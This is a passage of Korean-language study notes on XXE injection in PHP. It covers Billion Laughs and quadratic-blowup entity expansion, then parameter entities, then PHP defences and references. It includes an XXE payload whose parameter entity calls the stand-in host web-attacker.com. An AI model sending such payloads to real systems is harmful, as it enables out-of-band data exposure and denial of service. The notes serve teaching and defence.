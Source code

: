 ```xml
]>
<lolz>&lol9;</lolz>
```

- 그러나 php에서 실시해보면 보안기능에 의해 `Detected an entity reference loop in Entity` 와 같은 에러가 발생하면서 실시가 중지된다. 

## Quadratic Blowup
- `Billion Laughs` 공격은 지수적으로 증가한다. 
- 이 공격의 포인트는 엔터티의 순환 참조를 회피하기 위해, 순환참조는 한번으로 하되, 문자열 변수의 길이를 늘리고, 참조회수를 늘리는 것이다. 
- https://beistlab.files.wordpress.com/2015/01/grayhash_intro_xxe.pdf (현재는 링크가 깨진듯?)
- 페이로드는 `https://github.com/JaewoongMoon/php-study/blob/master/xxe/lol_test.php` 에서 확인할 수 있다. 

# XML 파라메터 엔터티
- 앱의 입력 유효성 검사 및 사용되는 XML 파서를 강화하면 일반 엔터티를 사용한 XXE 공격이 차단될 수 있다. 
- 이러한 상황에서는 `XML 파라메터 엔터티`를 대신 사용할 수 있을 가능성이 있다.
- XML 매개 변수 엔터티는 DTD의 다른 위치에서만 참조할 수 있는 특수한 유형의 XML 엔터티이다. 

예는 다음과 같다. 

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```


# 방어방법
1. XML을 파싱할 때 외부 참조를 허용하지 않는다. 

예를들어 PHP인 경우, XML을 파싱할 때, 다음의 플래그를 비활성화 한다. 

## 관련 PHP 플래그
- `LIBXML_NOENT` : XML을 파싱할 때 엔터티 참조를 허용하는 옵션이다.(외부/내부 모두)
- `LIBXML_DTDLOAD` : 외부 참조 DTD 서브셋을 로드한다. 

또는 `libxml_disable_entity_loader(true);` 라인을 loadXML함수를 호출하기전에 넣는다. (PHP 8부터는 기본적으로 XXE에 대해서 안전하다고 한다. )


2. XML Include(Xinclude) 를 무효화한다. 


# 참고자료 
- https://portswigger.net/web-security/xxe#what-is-xml-external-entity-injection
- 내가 2017년에 공개한 슬라이드: https://www.slideshare.net/ted0201/jp-xxe-injection20170627moon
- https://www.slideshare.net/slideshow/phpcon-2013xmlphpvuln/26184553
- http://hyunmini.tistory.com/66
- https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection
- https://ko.wikipedia.org/wiki/XML
- https://en.wikipedia.org/wiki/Document_type_definition
- http://php.net/manual/en/domdocument.loadxml.php
- http://php.net/manual/en/libxml.constants.php
- http://php.net/manual/en/language.operators.bitwise.php
- http://stackoverflow.com/questions/38807506/what-does-libxml-noent-do-and-why-isnt-it-called-libxml-ent
- https://github.com/JaewoongMoon/php-study/blob/master/xxe/index.php
- 방어를 위한 치트시트: https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
